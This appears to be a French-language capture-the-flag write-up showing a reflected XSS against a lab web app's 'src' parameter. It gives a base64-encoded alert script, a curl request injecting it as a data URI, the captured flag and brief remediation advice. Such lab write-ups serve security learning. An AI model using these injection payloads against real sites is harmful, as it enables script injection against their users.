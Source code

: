 # XSS reflected injection

## Exploitation 

Lorsque l'on clique sur l'image de la NSA on se retrouve a avoir dans l'url les elements "?page=media&src=nsa".
La page se sert alors de src=nsa pour afficher l'image demandee.
De notre cote on peut s'en servir pour injecter de la data.

```bash
$> echo "<script>alert(0)</script>" | base64
PHNjcmlwdD5hbGVydCgwKTwvc2NyaXB0Pgo=

$> curl "http://192.168.122.41/?page=media&src=%22data:text/html;base64,PHNjcmlwdD5hbGVydCgwKTwvc2NyaXB0Pgo=" | grep flag

The flag is : 928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d
```

## Resolution

Pour eviter ce type de failles on prefereras rejeter les requetes qui contiennent des caracteres speciaux.
Aussi on prefereras proceder d'une maniere differente pour seulement afficher des images statiques comme celles la.
